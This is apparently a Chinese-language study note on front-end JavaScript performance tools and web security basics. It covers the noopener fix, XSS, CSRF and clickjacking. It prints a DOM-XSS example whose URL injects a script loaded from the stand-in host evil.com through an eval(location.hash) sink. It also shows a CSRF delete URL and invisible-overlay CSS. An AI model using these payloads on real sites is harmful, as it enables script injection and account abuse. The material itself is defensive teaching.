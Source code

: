     - 辅助工具 PageSpeed YSlow jsPerf

    - JavaScript性能测试库 JSLitmus

# JS 高安全性

- 乌云网 - 国内著名的漏洞报告平台
- 黑客攻击网站的主要手段有

  - SQL注入
  - 网络钓鱼
  - 跨站攻击
  - 拒绝服务攻击

- 打开链接都有坑 <https://juejin.im/entry/59f97d3851882558513203d9>

  - 如果是a标签要在新窗口中打开，添加noopener属性
  - 如果是js中打开新窗口，手动将新窗口的opener置为null

```javascript
打开的页面地址是固定的？直接a标签加上target="_blank"属性搞定。
打开的页面地址是动态计算的？使用js进行window.open(url)搞定。

var otherWindow = window.open();
otherWindow.opener = null;
otherWindow.location = 'http://newurl';
```

- 攻击网站前端的方法

  - XSS 跨站点脚本攻击

    - 同源策略没有限制页面中加载第三方的脚本
    - 尽一切方法在目标网站上执行非目标网站上原有的脚本

```javascript
<script>
    eval(location.hash.substr(1));
</script>

http://host/test.html#document.write("<script/src=//www.evil.com/evil.com/evil/js></script>")
````

- CSRF 跨站点请求伪造 请求来源于其他网站

```javascript
http:www.a.com/del?id=21
```

- 界面操作劫持

  - 点击劫持
  - 拖放劫持
  - eg. 可见输入框内覆盖一个不可见的框

```javascript
filter: alpha(opacity=0);
opacity: 0;
z-index: 100
```
